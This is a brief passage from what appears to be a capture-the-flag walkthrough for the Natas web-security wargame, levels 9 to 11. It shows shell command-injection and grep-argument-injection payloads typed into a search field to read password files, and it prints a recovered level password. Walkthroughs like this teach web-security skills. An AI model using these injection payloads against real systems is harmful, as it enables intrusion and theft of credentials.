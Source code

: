 use `;cat /etc/natas_webpass/natas10;` got the password

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

### natas10

this time, it filters some of characters ![](../../.gitbook/assets/20190111141322793_1133453800.png)

payload: `-E .* /etc/natas_webpass/natas11`

will execute `grep -i -E ./* /etc/natas_webpass/natas11 dictionary.txt`

this means match all characters in natas11 and dictionary.txt

![](../../.gitbook/assets/20190111141508124_218531768%20%281%29.png)

### natas11

![](../../.gitbook/assets/20190111141751837_1365813093.png)

![](../../.gitbook/assets/20190111141944668_1426335224%20%282%29.png)
